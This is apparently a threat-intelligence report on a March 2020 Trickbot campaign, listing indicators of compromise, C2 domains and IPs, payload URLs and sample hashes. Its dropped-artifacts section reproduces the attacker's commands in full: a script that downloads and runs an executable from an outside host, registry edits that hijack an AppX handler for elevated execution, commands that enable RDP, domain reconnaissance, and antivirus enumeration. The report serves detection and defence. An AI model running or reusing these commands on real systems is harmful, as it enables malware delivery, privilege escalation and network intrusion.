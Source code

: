 # Threat Report: 2020-03-10: Trickbot Gtag QW1


## Key Intelligence
* Date: 2020-03-10
* Threat Level: 3 (Low)
* Tags:  Cobalt Strike Beacon, trickbot, Cobalt Strike, misp-galaxy:malpedia="TrickBot", tlp:white

---

## Indicators of Compromise (IOCs)
### Artifacts dropped
* text: %WINDIR%\system32\cmd.exe /c C:\DiskDrive\1\Volume\errorfix.bat
* text: cscript //nologo C:\DiskDrive\1\Volume\BackFiles\pinumber[.]vbs hxxp://customscripts.us/QW1.exe C:\DiskDrive\1\Volume\BackFiles\Jofert.exe
* text: powershell -C Sleep -s 4;Saps 'C:\DiskDrive\1\Volume\BackFiles\Jofert.exe'
* text: %WINDIR%\system32\cmd[.]exe /C reg add HKEY_CURRENT_USER\Software\Classes\AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2\shell\open\command /v "DelegateExecute" /t REG_SZ /d "" /f
* text: %WINDIR%\system32\cmd.exe /C reg add HKEY_CURRENT_USER\Software\Classes\AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2\shell\open\command /t REG_SZ /d "%WINDIR%\system32\cmd.exe /c start %ALLUSERSPROFILE%\ì˜ìƒØ«Ø§ÙÙˆØ²Ø¨Øª.exe" /f
* text: reg add HKEY_CURRENT_USER\Software\Classes\AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2\shell\open\command /t REG_SZ /d "%WINDIR%\system32\cmd.exe /c start %ALLUSERSPROFILE%\ì˜ìƒØ«Ø§ÙÙˆØ²Ø¨Øª.exe" /f
* text: reg add HKEY_CURRENT_USER\Software\Classes\AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2\shell\open\command /v "DelegateExecute" /t REG_SZ /d "" /f
* text: "%WINDIR%\system32\cmd[.]exe" /c start %ALLUSERSPROFILE%\ì˜ìƒØ«Ø§ÙÙˆØ²Ø¨Øª.exe
* text: cmd.exe 	/c net config workstation
* text: cmd.exe /c ipconfig /all
* text: cmd.exe 	/c net view /all
* text: cmd.exe 	/c net view /all /domain
* text: cmd.exe /c nltest /domain_trusts /all_trusts
* text: "%WINDIR%\system32\reg.exe" add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
* text: %WINDIR%\system32\cmd[.]exe /C reg add "\\usha-bdc\HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
* text: reg add "\\usha-bdc\HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
* text: %WINDIR%\system32\cmd.exe /C WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
* text: WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List

### External analysis
* link: https://laskowski-tech.com/2020/03/16/breakout-time-trickbot-edition/

### Network activity
* ip-dst: 95.179.210.8
* ip-dst: 50.87.170.67
* domain: customscripts.us
* domain: serviceuphelper.com

### Payload delivery
* url: https://serviceuphelper.com:80/avxbDFb
* url: http://customscripts.us/QW1.exe
* url: http://64.44.133.131/images/cursor.png

## Objects
### file — File object describing a file with meta-information
* [Artifacts dropped] malware-sample: Jofert.exe|b17e4833c580bbd343a1834be0e2a65f
* [Artifacts dropped] filename: Jofert.exe
* [Artifacts dropped] md5: <md5>
* [Artifacts dropped] sha1: <sha1>
* [Artifacts dropped] sha256: <sha256>
* [Other] size-in-bytes: 385024

### file — File object describing a file with meta-information
* [Artifacts dropped] malware-sample: errorfix.bat|4368db27ef2f07171c2c13d2e537d459
* [Artifacts dropped] filename: errorfix.bat
* [Artifacts dropped] md5: <md5>
* [Artifacts dropped] sha1: <sha1>
* [Artifacts dropped] sha256: <sha256>
* [Other] size-in-bytes: 2864

### file — File object describing a file with meta-information
* [Payload delivery] malware-sample: invoice.doc|d627615f955dd5342ef6b4c6938ad98c
* [Payload delivery] filename: invoice.doc
* [Payload delivery] md5: <md5>
* [Payload delivery] sha1: <sha1>
* [Payload delivery] sha256: <sha256>
* [Other] size-in-bytes: 441560
